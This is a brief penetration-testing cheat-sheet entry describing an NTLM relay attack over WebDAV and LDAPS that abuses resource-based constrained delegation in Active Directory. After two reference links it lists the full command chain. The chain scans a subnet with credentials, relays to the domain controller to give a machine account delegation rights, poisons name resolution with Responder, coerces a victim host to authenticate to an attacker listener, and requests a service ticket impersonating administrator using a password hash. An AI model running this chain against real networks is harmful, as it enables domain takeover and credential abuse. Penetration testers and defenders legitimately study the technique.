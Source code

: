 ## WebDav + LDAPS NTLM Relay + RBCD

- [https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb](https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb)
- [https://pentestlab.blog/2021/10/18/resource-based-constrained-delegation/](https://pentestlab.blog/2021/10/18/resource-based-constrained-delegation/)

```
$ cme smb 10.10.13.0/24 -u snovvcrash -p 'Passw0rd!' -M webdav
$ ntlmrelayx.py -t ldaps://DC01.megacorp.local --delegate-access --escalate-user 'PWNED-MACHINE$' --no-smb-server --no-da --no-acl --no-validate-privs
$ sudo python Responder.py -I eth0 -wfrd -P -v
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' attacker@80/test.txt VICTIM.megacorp.local
$ getST.py -spn cifs/VICTIM.megacorp.local MEGACORP/'PWNED-MACHINE$' -dc-ip 192.168.1.11 -hashes :fc525c9683e8fe067095ba2ddc971889 -impersonate administrator
```
